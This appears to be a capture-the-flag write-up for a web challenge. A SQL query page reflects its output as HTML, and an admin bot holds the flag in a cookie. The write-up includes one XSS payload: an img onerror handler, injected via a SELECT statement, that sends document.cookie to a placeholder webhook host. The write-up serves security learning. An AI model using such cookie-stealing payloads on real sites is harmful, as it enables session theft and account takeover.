 ### Chall Desc
I've made a little website to access a SQL database. I even added a way to share your queries with other people! Just copy the link.
Hint1: The contents of the database will give you some info on what to do next.
Hint2: You can only change the query; can you inject arbitrary HTML with it?

## Analyzing the website

We are given a query input field where we can input sql statements.We can `sqlite_master` table to get the structure of the database and the tables.  

![sql schema](schema.png)

We see a notes table and we try seeing the contents of it as well.  

![notes table](notes.png)  

It gives us a link to a admin bot which has the flag as the cookie and this seems like a XSS challenge now.  

We can inject html into the field using the below command  

Command --> `select "<img src=x onerror=this.src='https://webhook_url/?cookie='+document.cookie;>"`

Giving the link of the submitted page to the admin bot gives us requests in the webhook page which we have opened.

![admin bot](admin_bot.png)

We get the flag the cookie section in the webhook request.  

![flag_output](flag.png)

Thank you
